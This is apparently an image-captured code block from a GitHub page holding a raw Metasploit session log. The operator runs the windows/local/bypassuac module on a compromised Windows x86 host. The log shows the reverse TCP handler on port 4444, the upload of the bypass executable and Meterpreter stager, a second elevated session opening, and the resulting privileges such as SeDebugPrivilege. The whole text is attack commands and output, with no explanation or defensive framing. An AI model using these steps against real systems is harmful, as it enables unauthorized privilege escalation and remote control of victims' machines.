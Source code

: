 ```shell
Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf6 exploit(windows/local/bypassuac) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/bypassuac) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Started reverse TCP handler on 192.168.2.5:4444 
[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[+] Part of Administrators group! Continuing...
[*] Uploaded the agent to the filesystem....
[*] Uploading the bypass UAC executable to the filesystem...
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (175174 bytes) to 192.168.2.10
[*] Meterpreter session 2 opened (192.168.2.5:4444 -> 192.168.2.10:49198 ) at 2022-06-23 16:00:14 +0200

meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(windows/local/bypassuac) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x86/windows  Client-PC\Client @ CLIENT-PC  192.168.2.5:4444 -> 192.168.2.10:49197  (192.16
                                                                   8.2.10)
  2         meterpreter x86/windows  Client-PC\Client @ CLIENT-PC  192.168.2.5:4444 -> 192.168.2.10:49198  (192.16
                                                                   8.2.10)
msf6 exploit(windows/local/bypassuac) > sessions 2
[*] Starting interaction with 2...

meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
```